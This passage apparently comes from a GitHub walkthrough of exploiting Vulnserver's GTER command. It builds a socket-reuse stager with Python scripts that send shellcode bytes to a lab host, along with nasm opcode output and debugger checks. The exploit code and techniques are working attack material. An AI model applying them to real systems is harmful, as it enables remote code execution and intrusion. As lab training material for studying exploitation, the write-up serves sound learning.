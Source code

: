 ```c                                                                     
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 buffer-pointer.py
```

After running this, lets test it on our debugger

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-bp-2.png">
</div>

We can see that we have successfully placed the buffer pointer in top of the stack

Still one more pending, we have to push the file descriptor which we framed at the start

## Finalising the socket reuse stager

We have pushed our 3 arguments required for the socket ```JMP.&WS2_32.recv```

Still we need to push the ```socket file descriptor``` value to finalise the stager

Our file descriptor value (need to be dereferenced from the pointer present in EBX) is stored in the address present in ```EBX```

Generating opcodes to get the file descriptor value,

```c
nasm > mov ecx,[ebx]
00000000  8B0B              mov ecx,[ebx]
nasm > push ecx
00000000  51                push ecx
```

This is similar to ```push  dword ptr ds:[ebx]```

Adding this to our script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat socket-reuse-stager.py
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

```